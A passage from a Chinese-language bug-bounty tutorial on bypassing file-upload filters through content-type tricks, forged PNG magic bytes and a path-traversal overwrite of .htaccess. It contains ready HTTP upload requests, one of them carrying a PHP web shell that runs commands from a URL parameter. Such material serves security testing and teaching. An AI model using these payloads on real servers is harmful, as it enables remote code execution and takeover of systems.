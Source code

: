 再次取决于易受攻击的组件，在检索文件时，文件类型可能会由文件扩展名而不是文件内容类型来确定。  
  
**提示！请在此处应用相同的方法，并尝试利用任何现有的解析和验证缺陷。检查目标在发送多种内容类型、完全不发送或完全删除 content-type 参数时的行为。**  
### 魔法字节  
  
文件内容的前几个字节（字符）决定并标识文件类型。这些字节通常也称为魔法字节、魔法数字或文件签名。  
  
开发人员使用这些参数来验证文档，并忽略其他参数，例如内容类型或文件扩展名。幸运的是，我们可以上传一个通过此验证的文件，并附带我们的恶意负载。  
  
这些是十六进制的普通图像（PNG）的魔法字节：  
```
89 50 4E 47 0D 0A 1A 0A
```  
  
如果确定文件限制过滤器是基于魔术字节的，那么我们可以简单地在恶意文件中使用这些字节：  
```
POST /Api/FileUpload.aspx HTTP/2Host: console.example.comUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAqAccept: */*------WebKitFormBoundary3RwPFJztxaJvrqAqContent-Disposition: form-data; name="file"; filename="intigriti.php"Content-Type: application/x-php‰PNG␍␊␚␊<?php echo system($_GET['e']); ?>------WebKitFormBoundary3RwPFJztxaJvrqAq--
```  
  
我们上传的文件会通过验证，因为它一开始会被检测为图像。然而，当我们稍后请求该 PHP 文件时，我们的恶意代码可能会被触发并在服务器上执行。  
  
查看维基百科上记录的文件签名列表：https://en.wikipedia.org/wiki/List_of_file_signatures  
  
**提示！结合使用几种绕过方法，可以规避更严格的过滤！**  
### 覆盖服务器配置文件  
  
如果没有做出严格的限制或没有对文件名进行正确的验证，在某些边缘情况下，我们可以遍历文件目录，甚至只需上传具有冲突名称的文件即可覆盖服务器配置文件。  
  
我们来看一个简单的例子。  
  
假设你的目标使用 Apache 通过 HTTP 提供内容。Apache 支持.htaccess  
配置文件。弄清楚文件保存位置后，我们可以尝试覆盖现有.htaccess  
配置文件或创建新配置文件。  
```
POST /Api/FileUpload.aspx HTTP/2Host: console.example.comUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAqAccept: */*------WebKitFormBoundary3RwPFJztxaJvrqAqContent-Disposition: form-data; name="file"; filename="../../../.htaccess"Content-Type: text/plain# Your server configuraton rules------WebKitFormBoundary3RwPFJztxaJvrqAq--
```  
  
通过这种方式，我们可以改变当前的服务器配置，并且在大多数情况下，它可以导致在目标上执行代码。  
  
我们建议您列举目标上运行的服务和技术，并专门为您的目标制作有效载荷。  
## 结论  
  
文件上传漏洞本质上至关重要，因此值得花时间对这类漏洞进行测试。您应该尝试上传所有可能的有效载荷，找出文件验证过程中的潜在弱点和缺陷，并利用这些弱点和缺陷上传恶意文件。  
  
  
